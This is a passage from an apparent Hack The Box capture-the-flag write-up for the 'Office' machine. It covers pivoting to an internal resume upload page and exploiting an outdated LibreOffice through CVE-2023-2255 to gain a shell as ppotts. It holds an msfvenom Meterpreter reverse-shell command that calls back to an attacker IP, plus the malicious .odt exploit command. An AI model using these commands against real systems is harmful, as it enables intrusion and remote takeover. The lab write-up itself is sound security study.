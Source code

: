 ![netstat command](/images/HTB-Office/netstat-cmd.png)

To access it we will use [ligolo-ng](https://github.com/nicocha30/ligolo-ng).

Going to `http://240.0.0.1:8083/` we find a business website for Holography Industries.

![Internal business website](/images/HTB-Office/business-website.png)

Clicking on `Submit Application` leads us to `/resume.php`, a page where we can upload a resume for a job application.

![resume.php page for file submission](/images/HTB-Office/resume-php.png)

Trying to upload a pdf file fails, and we learn that this application only accepts `Doc`, `Docx`, `Docm`, and `Odt` files. 

![file extensions acepted](/images/HTB-Office/files-extensions.png)

The files for this application are found at `C:\xampp\htdocs\internal`.

![Internal files](/images/HTB-Office/internal-files.png)


### Shell as ppotts

The `resume.php` file is owned by the `PPotts` user.

![resume.php file permissions](/images/HTB-Office/resume-php-permissions.png)

We also find that Libre Office version 5.2 is running on the target. 

![Libre Office version](/images/HTB-Office/Libre-Office-version.png)

This is an outdated version vulnerable to [CVE-2023-2255](https://www.libreoffice.org/about-us/security/advisories/cve-2023-2255/) with a PoC available [here](https://github.com/elweth-sec/CVE-2023-2255).

We start by crafting a malicious exe file.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.4 LPORT=5555 -f exe -o shell.exe
```

Then we use the exploit.

```
python3 CVE-2023-2255.py --cmd 'C:\Users\Public\shell.exe' --output 'exploit.odt'
```

![Malicious odt file](/images/HTB-Office/malicious-odt.png)

A few minutes after placing `shell.exe` at the correct location and uploading our `exploit.odt` file via the internal application we get a new meterpreter shell as `ppotts`.

![ppotts meterpreter shell](/images/HTB-Office/ppotts-shell.png)

### Shell as hhogan
